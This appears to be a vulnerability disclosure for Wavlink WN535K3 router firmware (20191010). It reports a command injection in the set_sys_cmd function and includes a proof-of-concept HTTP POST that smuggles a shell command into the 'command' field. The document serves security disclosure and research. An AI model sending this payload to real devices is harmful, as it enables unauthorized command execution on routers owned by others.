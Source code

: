 ## Wavlink WN535K3 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WN535K3
* Version: 20191010

* Manufacturer's address：https://www.wavlink.com/en_us/product/WL-WN535K3.html
* Firmware download address ：https://www.wavlink.com/zh_cn/firmware/details/7.html

### Vulnerability details

Wavlink WN535K3 20191010 was found to contain a command injection vulnerability in the `set_sys_cmd` function via the `command` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=set_sys_cmd&command=1;pwd;
```

